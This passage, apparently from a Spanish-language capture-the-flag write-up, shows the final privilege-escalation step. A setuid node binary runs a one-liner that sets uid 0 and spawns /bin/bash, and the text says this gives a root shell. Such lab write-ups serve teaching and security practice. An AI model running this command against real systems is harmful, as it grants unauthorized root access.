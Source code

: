 ```bash
/usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

Tras ejecutarlo, veremos que nos otorga una shell como **root**, completando la explotación de la máquina.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315211343.png>)